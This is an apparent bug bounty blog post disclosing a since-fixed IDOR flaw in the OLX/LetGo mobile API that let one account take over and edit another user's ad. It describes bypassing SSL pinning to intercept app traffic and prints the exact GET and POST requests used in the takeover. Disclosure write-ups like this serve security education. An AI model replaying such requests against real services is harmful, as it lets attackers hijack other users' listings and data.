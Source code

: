 ```yaml
---
layout: post
title:  "Taking over every Ad on OLX (automated), an IDOR story"
date:   2017-10-18 15:30:00 +0200
categories: bugbounty infosec security olx idor high automated
---
```

# Public disclosure #
Hi again! Thank you for reading my third blog post. Happy to share all the details with you on the Insecure Direct Object Reference attack (IDOR) as mentioned in my first blog. It has been resolved by OLX and publicly disclosed on HackerOne, meaning it's time for a write-up!

# Some context #
OLX powers the LetGo website for a couple of countries including The Netherlands. LetGo is an eBay like website, allowing you to buy new stuff and let go of old stuff.

You can probably imagine the excitement I felt finding out I could take over an ad uploaded by someone else and change the pricing and details. The changes will have to go through a manual approval process, but from my repeated experience this ends up fine. Especially for example changing prices from 40 to 35 euros will always go through. Also it appears that after several approvals my account got whitelisted and approvals were not required anymore.

Because there was no rate limiting in place and the API supported walking through the full listing of all the ads, there was a potential for building a small script that does exactly that. Loop all the ads, take over each ad, change the pricing. This way it was possible to take over the entire collection of ads on the website.

Of course it's not a good idea to actually do so, no need to prove anything this severe and cause damage. So right after verifying the initial IDOR and the moment I saw the potential I reported the issue. Also note that I did not take over any ads that were not mine: always use multiple test accounts! Safety first.

# How I found the IDOR #
Having OLX permission: full disclosure time!

First of all we need to proxy the traffic coming from the iOS / Android apps. This traffic is SSL encrypted which is fine: just import the CA BurpSuite provisions for you. But nowadays some apps implement SSL pinning, meaning the BurpSuite CA does not work out of the box. You can bypass this added layer of protection by unpinning SSL. One way would be reverse engineering the app and patching out the checks, but a much easier way is to unpin system wide.

So I have set up both a jailbroken iPad with SSL pinning disabled (using a cydia app) and an Android phone with SSL pinning disabled (using an Xposed module). This way you can always intercept traffic using a proxy like BurpSuite and (almost) any app. Note that you can just as easily set up Android emulators to accomplish the same goal (try genymotion or android studio).

By intercepting the API calls during browsing of your iOS and Android apps, you can learn about-, change- and repeat API calls.

Setup test accounts:
- Android account: token '111111'
- iOS     account: token '222222'

ACCOUNT\_1:
1. Post a new ad using token '111111' (returns the ID, in this test case: 888888).
2. Wait for approval
3. Approved and published on site

ACCOUNT\_2:
1. Fetch advertisement list through a search api call
2. Attack an ad by doing a POST call (picked the newly posted 888888 here).
3. The takeover of the ad is instant: it's now in ACCOUNT\_2, not in ACCOUNT\_1 anymore
4. Wait for approval
5. Approved and published on site with my changes

The attack - using ACCOUNT\_2 - involves two api calls: GET /i2/ajax/ads/ (to get id's) and POST /i2/newadding/ (to take over and make changes).

The GET call lists all the ads including id's (paginated) and looks like this:

{% highlight html %}
GET /i2/ajax/ads/?json=1&app\_ios=285&brand=Letgo&client=ios&version=285&token=222222&location=1,1&lang=en&search%5Blat%5D=1&search%5Blon%5D=1&search%5Border%5D=dist&search%5Bdistance%5D=20000 HTTP/1.1
Host: letgonl-a.akamaihd.net
Connection: close
Accept: */*
User-Agent: Mozilla/5.0 (Linux; U; Android 2.2; en-us; Droid Build/FRG22D) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1           Accept-Language: en-NL;q=1.0, nl-NL;q=0.9
X-Origin-OLX: production
{% endhighlight %}

The POST call - the actual attack / IDOR - looks like this:

{% highlight html %}
POST /i2/newadding/?json=1&app_ios=285&brand=Letgo&client=ios&version=285&token=222222&location=1,1&lang=en HTTP/1.1
Host: letgonl-a.akamaihd.net
Content-Type: application/json
Content-Length: 222
Accept: */*
Connection: close
User-Agent: Mozilla/5.0 (Linux; U; Android 2.2; en-us; Droid Build/FRG22D) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1
Accept-Language: en-NL;q=1.0, nl-NL;q=0.9
X-Origin-OLX: production

{"ad_id":888888,"params":{"price":"35"},"description":"This is awesome","person":"nickname","title":"My title","category_id":"800","locations":[{"map_lon":1,"map_lat":2}]}
{% endhighlight %}

Note that I'm just repeating the GET and POST calls I intercepted, replacing the token from ACCOUNT\_1 with the token from ACCOUNT\_2.

Again I would like to emphasize you must always use test accounts, never cause damage, think before you act. It's a lot of fun, but it's not a game!

My suggested fix was: 'The update POST call does check for something like "is\_authenticated()" but it appears it does not check for "is\_authorized()", which in turn could implement something like "is\_owner()".'

# Lessons learned #
1. Focus on bug bounty programs with a good track record. Chasing should not be nescessary, it's a two way street. And #NoFreeBugs.
2. Know when to stop attacking one specific issue or platform. Got stuck? Keep on moving! Write down your notes on what you have found so far and come back later.

Let's keep on hacking!

Cheers,
kciredor

